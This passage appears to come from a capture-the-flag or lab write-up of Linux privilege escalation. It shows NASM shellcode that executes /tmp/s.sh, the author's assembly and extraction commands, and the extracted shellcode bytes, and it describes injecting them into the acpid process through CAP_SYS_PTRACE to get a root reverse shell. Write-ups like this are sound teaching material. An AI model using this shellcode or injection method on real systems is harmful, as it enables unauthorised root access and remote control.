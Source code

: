 ```nasm
	push 60         ; sys_exit
	pop rax
	xor edi, edi    ; status_code = 0
	syscall

.push_argv0:
call .pop_argv0     ; push &argv[0] to the stack then jump to pop_argv0
arg0: db "/tmp/s.sh", 0x0
```

I assembled it on my machine, using some assembling functions I made before, and used a [shellcode extractor I wrote a few years ago](https://github.com/0x00Jeff/injectors) to extract the code from the `.text` section

```bash
(00:44:01) [ arch@jeff | ~/work/asm ]
$ type asm64
asm64 is a function
asm64 ()
{
    local arg;
    if [ $# == 0 ]; then
        arg="test";
    else
        arg=$(echo $1 | cut -d . -f 1);
    fi;
    assemble $arg elf64 && asmlink $arg elf_x86_64 && asmclean $arg
}
(00:44:05) [ arch@jeff | ~/work/asm ]
$ type assemble asmlink
assemble is a function
assemble ()
{
    nasm -f $2 $1.s -o $1.o -g -F dwarf && return 0 || return 1
}
asmlink is a function
asmlink ()
{
    ld -m $2 $1.o -o $1 && return 0 || return 1
}
(00:44:23) [ arch@jeff | ~/work/asm ]
$ asm64 shellcode.s
(00:46:30) [ arch@jeff | ~/work/asm ]
$ gcc extractor64.c -o extract
(00:46:36) [ arch@jeff | ~/work/asm ]
$ ./extract shellcode
\xeb\x16\x5f\x31\xc0\x50\x57\x48\x89\xe6\x31\xd2\x6a\x3b\x58\x0f\x05\x6a\x3c\x58\x31\xff\x0f\x05\xe8\xe5\xff\xff\xff\x2f\x74\x6d\x70\x2f\x73\x2e\x73\x68\x00
```

Then I used [this script from hacktricks](https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/linux-capabilities.html#cap_sys_ptrace) to inject the shellcode into `acpid` process to get a reverse shell as root
